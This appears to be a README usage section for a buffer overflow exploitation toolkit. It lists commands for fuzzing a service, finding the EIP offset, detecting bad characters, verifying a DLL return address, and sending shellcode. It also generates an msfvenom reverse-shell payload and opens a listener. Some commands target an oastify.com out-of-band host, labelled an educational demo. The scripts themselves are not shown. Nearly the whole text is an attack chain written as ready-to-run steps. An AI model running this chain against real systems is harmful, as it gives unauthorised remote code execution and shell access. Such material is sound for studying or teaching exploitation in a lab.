 ### 🔧 Fuzzing Script Usage
```bash
# Basic fuzzing against target
python3 fuzzing.py 192.168.1.100 9999

# Fuzzing with custom parameters
python3 fuzzing.py 192.168.1.100 9999 --initial-size 500 --increment 100

# Test against target site for educational demo
python3 fuzzing.py rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com 80
```

### 🎯 Offset Discovery Usage
```bash
# Generate and send cyclic pattern
python3 offset.py 192.168.1.100 9999 2000

# Find offset from EIP value
python3 offset.py --find-offset 316A4230 --pattern-length 2000

# Generate pattern only
python3 offset.py --generate-pattern 2000
```

### 🚫 Bad Character Detection Usage
```bash
# Send all characters for testing
python3 badchars.py 192.168.1.100 9999 --offset 1052

# Exclude known bad characters
python3 badchars.py 192.168.1.100 9999 --offset 1052 --exclude 0x00 0x0a 0x0d

# Custom EIP value
python3 badchars.py 192.168.1.100 9999 --offset 1052 --eip "\\x42\\x42\\x42\\x42"
```

### 🎯 DLL Address Verification Usage
```bash
# Test default DLL address
python3 verify_dll_address.py 127.0.0.1 8888

# Test custom DLL address
python3 verify_dll_address.py 192.168.1.100 9999 --offset 1052 --dll-addr "7B8AA968"

# Test against target site
python3 verify_dll_address.py rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com 80
```

### 💣 Shellcode Exploitation Usage
```bash
# Basic exploitation
python3 shellcode.py 192.168.1.100 9999

# Custom parameters
python3 shellcode.py 192.168.1.100 9999 --offset 1052 --eip "\\x7B\\x8A\\xA9\\x68"

# Generate msfvenom command
python3 shellcode.py --generate-msfvenom --lhost 192.168.1.100 --lport 4444

# Start listener for reverse shell
python3 shellcode.py --listen 4444
```

---